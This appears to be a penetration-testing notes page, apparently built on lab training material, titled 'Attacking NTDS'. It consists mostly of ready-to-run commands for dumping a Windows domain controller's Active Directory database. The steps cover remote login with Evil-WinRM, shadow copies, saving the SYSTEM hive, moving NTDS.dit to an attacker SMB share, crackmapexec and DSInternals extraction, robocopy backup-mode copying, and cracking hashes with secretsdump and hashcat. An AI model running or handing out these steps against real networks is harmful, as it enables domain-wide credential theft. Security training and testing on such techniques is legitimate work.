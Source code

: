 ```yaml
---
title: Attacking NTDS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking NTDS

By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller. The .dit stands for directory information tree. 

## Alternative #1: vssadmin (locally)

**1.** Connecting to a DC with Evil-WinRM

```shell-session
evil-winrm -i $DomainControllerIP  -u $username -p $password
# Example:
# evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

**2.** Checking Local Group Membership

```shell-session
net localgroup
```

**3.** Checking User Account Privileges including Domain

```shell-session
net user $username
# Example: 
# net user bwilliamson
```

**4.** Creating Shadow Copy of C: We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install.

```shell-session
vssadmin CREATE SHADOW /For=C:
```

Results:

```
Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**5.** Copying NTDS.dit from the VSS: We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

**6.** We will also need either the SYSTEM hive or bootkey is required for local parsing. So let's save the system hive

```cmd
reg.exe save hklm\system C:\system.save
```

**7.** Transfer file to attacking machine. For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
cmd.exe /c move system.save \\$ipAttacker\CompData

# If you have a cmd terminal
move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData

```

**8.** Extract and crack ntds.dit locally:

```bash
python ~/tools/impacket/examples/secretsdump.py -ntds ~/borrar/NTDS.dit  -system ~/borrar/system.save -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```


## Alternative #2: crackmapexec (remotely)

```shell-session
crackmapexec smb $ip -u $username -p $password --ntds
# Example: 
# crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

Cracking a Single Hash with Hashcat

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```


## Alternative #3:  `DSInternals` module (locally)

The [DSInternals Framework](https://www.nuget.org/profiles/DSInternals) exposes several internal features of _Active Directory_ and can be used from any .NET application.

#### Installation

Since PowerShell 5, you can install the DSInternals module directly from the official [PowerShell Gallery](https://www.powershellgallery.com/packages/DSInternals/) by running the following command:

```powershell
Install-Module DSInternals -Force
```

The DSInternals PowerShell Module can also be installed using the official [Chocolatey package](https://chocolatey.org/packages/dsinternals-psmodule) by executing the following Chocolatey command:

```powershell
choco install dsinternals-psmodule --confirm
```

This package is self-contained and it will also install all dependencies. 

#### Commands to Extract the NTDS file + Boot Key 

```powershell
Import-Module .\DSInternals.psd1
# Extract the Boot Key from the SYSTEM Hive 
$key = Get-BootKey -SystemHivePath .\SYSTEM

# Extract NTLM Hashes for a Specific Account
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```


## Alternative #4: Robocopy (locally)

The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more.

Robocopy differs from the `copy` command in that instead of just copying all files, it can check the destination directory and remove files no longer in the source directory.

```cmd-session
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
# -/B → Runs the copy operation in Backup mode, allowing the command to bypass file access restrictions (even for files locked by the system).
# E:\Windows\NTDS → The source folder, which in this case is the Active Directory (AD) database directory on a Windows Domain Controller.
# .\ntds → The destination folder (a local folder named ntds in the current directory).
# ntds.dit → The specific file being copied, which is the Active Directory database.
```


## Cracking ntds file

### secretsdump.py

We will need either the SYSTEM hive or bootkey:

```bash
python3 /opt/impacket/examples/secretsdump.py -ntds ~/borrar/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

python3 /opt/impacket/examples/secretsdump.py -ntds ~/borrar/ntds.dit -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```
